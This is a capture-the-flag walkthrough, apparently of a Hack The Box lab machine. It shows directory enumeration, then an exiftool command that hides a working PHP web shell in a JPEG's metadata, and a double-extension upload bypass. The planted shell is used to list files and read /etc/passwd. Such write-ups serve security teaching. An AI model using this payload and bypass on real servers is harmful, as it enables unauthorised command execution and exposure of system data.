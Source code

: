 ```bash
301      GET        9l       28w      321c http://10.10.10.185/images/uploads => http://10.10.10.185/images/uploads/
301      GET        9l       28w      313c http://10.10.10.185/assets => http://10.10.10.185/assets/
403      GET        9l       28w      277c http://10.10.10.185/images/.php
200      GET       60l      207w     4053c http://10.10.10.185/
302      GET       84l      177w     2957c http://10.10.10.185/upload.php => login.php
302      GET        0l        0w        0c http://10.10.10.185/logout.php => index.php
301      GET        9l       28w      317c http://10.10.10.185/assets/css => http://10.10.10.185/assets/css/
403      GET        9l       28w      277c http://10.10.10.185/assets/.php
301      GET        9l       28w      316c http://10.10.10.185/assets/js => http://10.10.10.185/assets/js/
```

It seems that I cannot upload a PHP file (reverse shell or web shell).

You can look at this blog to inject PHP code into the image.

```bash
ghost@localhost [00:18:12] [~/Documents/hacking/tj-null-boxes/magic] [master *]
-> % exiftool -DocumentName="<h1>Shell<br><?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?></h1>" gigachad.jpg
    1 image files updated
```

With Burpsuite, I renamed to `gigachad.php.jpg` and upload works. Now I can access the shell at http://10.10.10.185/images/uploads/gigachad1.php.jpg?cmd=ls.

```bash
����JFIF``���ExifMM* �J��(

# Shell

chad.jpg
gigachad.jpg
gigachad1.php.jpg
giphy.gif
logo.png
magic-1424x900.jpg
magic-hat_23-2147512156.jpg
magic-wand.jpg
trx.jpg
```

I found 1 user under home.
- theseus

`http://10.10.10.185/images/uploads/gigachad.php.jpg?cmd=cat%20/etc/passwd%20|%20grep%20-v%20%27false\|nologin%27`

Shows that there are only 2 users (exclude `sync`).

```bash
����JFIF``���ExifMM* �J��(

# Shell  

root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
theseus:x:1000:1000:Theseus,,,:/home/theseus:/bin/bash
```
